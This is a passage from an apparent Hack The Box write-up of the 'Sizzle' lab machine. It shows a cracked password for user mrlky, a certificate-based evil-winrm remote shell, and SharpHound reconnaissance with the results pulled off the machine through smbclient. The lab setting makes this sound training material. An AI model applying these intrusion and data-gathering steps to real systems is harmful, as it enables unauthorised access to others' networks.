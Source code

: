 ![Untitled](/img/htb-sizzle/Untitled%207.png)

The hashes of `mrlky` is stored in hashes.txt file as I mentioned it before.

I used hashcat to crack the hash and got the password as `Football#7`

![Untitled](/img/htb-sizzle/Untitled%208.png)

For login, we can't use this password in evil-winrm so you need to create the public and private keys as we did before. Make sure you login with `mrlky : Football#7` in `/certsrv` and create those keys again.

![Untitled](/img/htb-sizzle/Untitled%203.png)

So I created them and logged in as mrlky.

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# evil-winrm -S -i 10.10.10.103 -u mrlky -c certnew.cer -k mrlky.key

Evil-WinRM shell v2.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\mrlky.HTB\Documents> whoami
htb\mrlky
```

## Privilege Escalation

I just run SharpHound again and to copy that to our machine, I used the SMB Share `Department Shares\Users\Public` and download via smbclient in my machine.

```bash
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> copy 20200731001658_BloodHound.zip 'C:\Department Shares\Users\Public'
Enter PEM pass phrase:

root@kali:~/CTF/HTB/Boxes/Sizzle# smbclient '//10.10.10.103/Department Shares'
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> cd users/public
smb: \users\public\> ls
  .                                   D        0  Fri Jul 31 09:49:25 2020
  ..                                  D        0  Fri Jul 31 09:49:25 2020
  20200731001658_BloodHound.zip       A     9142  Fri Jul 31 09:46:59 2020

		7779839 blocks of size 4096. 2621288 blocks available
smb: \users\public\> get 20200731001658_BloodHound.zip
getting file \users\public\20200731001658_BloodHound.zip of size 9142 as 20200731001658_BloodHound.zip (7.9 KiloBytes/sec) (average 7.9 KiloBytes/sec)
smb: \users\public\>
```
